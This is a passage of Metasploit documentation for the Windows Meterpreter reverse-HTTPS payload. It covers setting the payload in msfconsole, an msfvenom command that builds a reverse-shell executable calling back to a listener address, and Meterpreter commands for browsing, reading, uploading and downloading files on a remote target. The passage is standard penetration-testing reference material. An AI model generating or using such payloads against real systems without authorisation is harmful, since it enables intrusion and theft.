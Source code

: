 1. In msfconsole, load the exploit.
2. Do: ```set PAYLOAD windows/meterpreter/reverse_https```
3. Set the ```LHOST``` OPTION WHICH, which [IP the same the payload connect to](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html).
4. Run th exploit

**As a standalone**

To generate windows/meterpreter/reverse_https, you can do this from msfvenom:

```
./msfvenom -p windows/meterpreter/reverse_https lhost=172.16.23.1 lport=4444 -f exe -o /tmp/https.exe
```

## Important Basic Commands

**pwd command**

The ```pwd``` command allows you to see the current directory you're in on the remote target.
Example:

```
meterpreter > pwd
C:\Users\sinn3r\Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd C:\\
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat data.txt
Hello World
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/payload.exe C:\\Users\\sinn3r\\Desktop
[*] uploading  : /tmp/payload.exe -> C:\Users\sinn3r\Desktop
[*] uploaded   : /tmp/payload.exe -> C:\Users\sinn3r\Desktop\payload.exe
meterpreter >
```

The ```-r``` option for the command also allows you to upload recursively.

**download command**

The ```download``` command allows you download a file from the remote target to your machine.
For example:
